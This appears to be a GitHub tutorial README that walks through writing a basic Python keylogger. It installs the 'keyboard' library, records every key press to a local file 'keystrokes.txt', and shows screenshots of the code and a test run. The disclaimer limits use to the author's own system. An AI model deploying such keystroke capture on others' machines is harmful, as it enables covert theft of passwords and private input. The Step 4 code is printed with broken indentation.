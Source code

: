 # Keylogger

# Disclaimer

This tutorial is for educational purposes only and should only be used on your personal system. 
# Prerequisites

Personal host, I recommend doing this in a Windows VM.

Python, code editor, Im using Visual Studio Code.

# Step 1
Install the Required Library.

Open your command prompt or terminal and execute the following command: 
    "pip install keyboard"

# Step 2 Importing the Necessary Libraries
This library will enable us to work with keyboard inputs. Insert the following line of code:

    import keyboard

# Step 3 
Define the Log File

In this example, we’ll use ‘keystrokes.txt’ as the file name. Feel free to modify it as desired. Add the following line of code:

    log_file = 'keystrokes.txt'

# Step 4
Create the Key Press Event Function

    def on_key_press(event):

    with open(log_file, 'a') as f:
    
        f.write('{}\n'.format(event.name))
        
# Step 5 
Register the Key Press Event

Register the ‘on_key_press’ function to be called whenever a key is pressed. This will enable our code to capture the keystrokes. Add the following line:

    keyboard.on_press(on_key_press)

# Step 6 
Finally, we want our program to wait until a key is pressed before it exits. Use the 

    ‘keyboard.wait()’

function to accomplish this.


# Final Code

![Screenshot 2024-07-29 114950](https://github.com/user-attachments/assets/b4c6529f-d7b0-4ef3-b638-9813c1f0cb9b)

# Step 7
Open your command prompt or terminal, navigate to the directory where the script is located, and execute the command:
    cd (directory where file is stored) 
    
        Cd Desktop
        
        py keylogger.py
    

![Screenshot 2024-07-29 122614](https://github.com/user-attachments/assets/f943a530-664c-4562-bb25-b1f051e2e85f)

# Test

 ![Screenshot 2024-07-29 132746](https://github.com/user-attachments/assets/1c00d045-90b2-4d0b-b0f7-f4b40383c0ed)
# Keystrokes File Confirmation
 ![Screenshot 2024-07-29 132909](https://github.com/user-attachments/assets/057021f9-e4bd-4fd8-928d-32cc1ee46b5b)


